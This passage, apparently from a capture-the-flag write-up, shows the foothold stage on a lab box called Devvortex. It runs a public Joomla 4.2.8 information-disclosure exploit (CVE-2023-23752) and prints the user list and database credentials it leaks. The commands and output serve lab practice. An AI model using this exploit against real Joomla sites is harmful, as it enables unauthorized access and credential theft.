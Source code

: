 ## Foothold

Taking a further look we find that is a jommla vulnerable version:

```
searchsploit joomla | grep -i v4.2
Joomla! v4.2.8 - Unauthenticated information disclosure
```

```
searchsploit -p 51334
  Exploit: Joomla! v4.2.8 - Unauthenticated information disclosure
      URL: https://www.exploit-db.com/exploits/51334
     Path: /opt/exploitdb/exploits/php/webapps/51334.py
    Codes: CVE-2023-23752
 Verified: True
File Type: Ruby script, ASCII text
```

We can see that the exploit it's a ruby script, but, with python extension.
We copy it to a working folder and we install the gems required by the script:

```
cp /opt/exploitdb/exploits/php/webapps/51334.py /home/rubenhortas/devvortex/exploits/51334.rb
```
```
sudo gem install httpx docopt paint
```

Once we have everything ready we run the exploit:

```
./51334.rb http://dev.devvortex.htb
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: f4k3l0g4np455
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```

### lewis
